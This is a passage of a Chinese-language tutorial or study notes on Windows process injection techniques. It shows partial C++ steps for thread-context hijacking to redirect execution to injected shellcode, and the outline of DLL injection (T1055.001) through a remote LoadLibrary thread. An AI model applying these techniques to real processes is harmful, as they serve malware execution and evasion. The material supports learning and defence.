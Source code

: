 - **步骤 6: 挂起目标线程 (`SuspendThread`)**
    
    C++
    
    ```
    // if (SuspendThread(hThread) == (DWORD)-1) { /* 错误处理 */ }
    ```
    
- **步骤 7: 获取线程上下文 (`GetThreadContext`)**
    
    C++
    
    ```
    CONTEXT context;
    context.ContextFlags = CONTEXT_CONTROL; // 指定需要获取控制寄存器 (如 EIP/RIP)
    // if (!GetThreadContext(hThread, &context)) { /* 错误处理 */ }
    ```
    
- 步骤 8: 更新指令指针
    
    将上下文结构中的指令指针 (32位为 Eip，64位为 Rip) 修改为指向先前注入的 Shellcode (remoteBuffer)。
    
    C++
    
    ```
    // PVOID remoteBuffer; // 假设已分配并写入 Shellcode 的地址
    context.Rip = (DWORD_PTR)remoteBuffer; // 64位示例
    // context.Eip = (DWORD)remoteBuffer; // 32位示例
    ```
    
- **步骤 9: 重写目标线程上下文 (`SetThreadContext`)**
    
    C++
    
    ```
    // if (!SetThreadContext(hThread, &context)) { /* 错误处理 */ }
    ```
    
- **步骤 10: 恢复被劫持的线程 (`ResumeThread`)**
    
    C++
    
    ```
    // if (ResumeThread(hThread) == (DWORD)-1) { /* 错误处理 */ }
    // CloseHandle(hThread); // 清理
    ```
    

##### 6. 滥用动态链接库：DLL 注入 (Abusing Dynamic Link Libraries: DLL Injection)

DLL 注入 (T1055.001) 是将恶意 DLL 加载到目标进程内存中执行的技术。

主要步骤：

1. **定位目标进程**: 找到要注入的进程的 PID。
2. **打开目标进程**: 获取目标进程的句柄。
3. **为 DLL 路径分配内存**: 在目标进程中为恶意 DLL 的完整路径字符串分配内存。
4. **将 DLL 路径写入内存**: 将恶意 DLL 的路径写入到目标进程中分配的内存。
5. **加载并执行恶意 DLL**: 在目标进程中创建一个远程线程，该线程调用 `LoadLibraryA` (或 `LoadLibraryW`) 函数，参数为指向已写入的 DLL 路径的指针。
